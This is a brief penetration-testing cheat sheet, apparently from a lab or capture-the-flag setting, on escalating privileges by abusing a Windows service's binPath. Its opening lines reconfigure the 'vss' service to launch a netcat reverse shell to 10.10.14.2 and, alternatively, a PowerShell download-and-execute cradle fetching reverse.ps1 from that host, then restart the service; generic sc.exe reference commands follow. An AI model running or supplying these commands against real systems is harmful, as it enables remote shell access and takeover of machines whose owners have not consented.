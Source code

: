 sc.exe config vss binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.14.2 1234"  
sc.exe config vss binPath="C:\Windows\system32\cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.2/reverse.ps1')"  
sc.exe stop vss  
sc.exe start vss

#### Service Commands
Query the configuration of a service:
`> sc.exe qc <name>`
Query the current status of a service:
`> sc.exe query <name>`
Modify a configuration option of a service:
`> sc.exe config <name> <option>= <value>`
Start/Stop a service:
`> net start/stop <name>`